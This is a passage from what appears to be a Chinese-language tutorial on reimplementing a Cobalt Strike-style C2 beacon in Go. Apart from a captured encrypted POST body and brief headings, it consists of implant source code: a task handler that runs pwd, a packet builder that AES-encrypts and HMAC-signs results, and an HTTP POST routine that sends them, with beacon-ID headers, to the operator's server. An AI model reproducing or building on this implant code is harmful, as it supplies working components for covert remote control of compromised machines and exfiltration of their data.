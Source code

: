   
得到实际的post data

  * 

    
    
    AAAAMOoMW516MwI6+UQGIx5LuEleeFVzVueZ10pEkAOLNHV3HUByBodgsliVpwUoEH1VgA== 

  
然后使用python脚本解析返回的数据  
![](https://gitee.com/fuli009/images/raw/master/public/20220218134456.png)  
 **1.3.4** **使用** **golang** **封包** **task** **返回的任务数据 ****  
**以执行pwd为例：  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
     func PWD(){    var finalPacket []byte = nil    pwd, err := os.Getwd()    result, err := filepath.Abs(pwd)    if err != nil {        finalPacket = packet.MakePacket(13,[]byte(err.Error()))    }else {        finalPacket = packet.MakePacket(19,[]byte(result))    }    packet.PushResult(finalPacket)}

  
1\. MakePacket封装send data

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    func MakePacket(replyType int, b []byte) []byte {    config.Counter += 1    buf := new(bytes.Buffer)    counterBytes := make([]byte, 4)    binary.BigEndian.PutUint32(counterBytes, uint32(config.Counter))    buf.Write(counterBytes)  
        if b != nil {        resultLenBytes := make([]byte, 4)        resultLen := len(b) + 4        binary.BigEndian.PutUint32(resultLenBytes, uint32(resultLen))        buf.Write(resultLenBytes)    }  
        replyTypeBytes := make([]byte, 4)    binary.BigEndian.PutUint32(replyTypeBytes, uint32(replyType))    buf.Write(replyTypeBytes)  
        buf.Write(b)  
        encrypted, err := crypt.AesCBCEncrypt(buf.Bytes(), config.AesKey)    if err != nil {        return nil    }    // cut the zero because Golang's AES encrypt func will padding IV(block size in this situation is 16 bytes) before the cipher    encrypted = encrypted[16:]  
        buf.Reset()  
        sendLen := len(encrypted) + crypt.HmacHashLen    sendLenBytes := make([]byte, 4)    binary.BigEndian.PutUint32(sendLenBytes, uint32(sendLen))    buf.Write(sendLenBytes)  
        buf.Write(encrypted)  
        hmacHashBytes := crypt.HmacHash(encrypted)    buf.Write(hmacHashBytes)  
        return buf.Bytes()}

  
2\. PushResult封装http post

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    func HttpPost(url string, data []byte) error {    httpRequest := req.New()    postString := base64.StdEncoding.EncodeToString(data)  
        for k,v := range config.Postheader{        if strings.Contains(v,"%ENCBEACONID%"){            config.Postheader[k] = strings.Replace(v, "%ENCBEACONID%", base64.StdEncoding.EncodeToString([]byte(strconv.Itoa(config.ClientID))), -1 )        }    }  
        if len(config.PostPrepend) !=0 {        postString = config.PostPrepend + postString    }    if len(config.PostAppend) !=0 {        postString = postString + config.PostAppend    }    resp, err := httpRequest.Post(url, postString, config.Postheader)    if err != nil {        fmt.Printf("[-] Post http data error: %s\n", err.Error())        return err    }  
        defer resp.Response().Body.Close()    if resp.Response().StatusCode != http.StatusOK {        fmt.Printf("[-] Post http response status code: %d\n", resp.Response().StatusCode)        return err    }    return nil}

